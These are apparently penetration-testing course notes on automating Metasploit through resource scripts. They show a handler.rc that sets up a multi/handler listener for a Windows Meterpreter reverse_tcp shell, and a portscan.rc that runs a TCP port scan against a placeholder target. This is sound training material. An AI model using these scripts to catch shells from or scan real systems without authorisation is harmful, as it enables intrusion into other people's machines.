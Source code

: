 - Metasploit resource scripts are a great feature of MSF that allow you to automate repetitive tasks and commands.
- They operate similarly to batch scripts, whereby you can specify a set of Msfconsole commands that you want to execute sequentially.
- You can then load the script with Msfconsole and automate the execution of the commands you specified in the resource script.
- We can use resource scripts to automate various tasks like setting up multi handlers as well as loading and executing payloads.

## Demo: Automating Metasploit with Resource Scripts

```bash
ls -al /usr/share/metasploit-framework/scripts/resource/
```

```bash
vim /usr/share/metasploit-framework/scripts/resource/auto_brute.rc
```

We automate setting up a handler:

```bash
msfconsole
```

```bash
vim handler.rc
```

```bash
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [ownIP]
set LPORT 1234
run
:wq
```

```bash
ls
msfconsole -r handler.rc
```

### portscan.rc

We exit msfconsole:

```bash
vim portscan.rc
```

Open a new tab:

We check the name of the module we want to use via `search portscan`. We use the TCP portscan module. Then via `show options` we check what variables we have to set.

Back in the old tab (vim):

```bash
use auxiliary/scanner/portscan/tcp
set rhosts [targetIP]
run
:wq
```
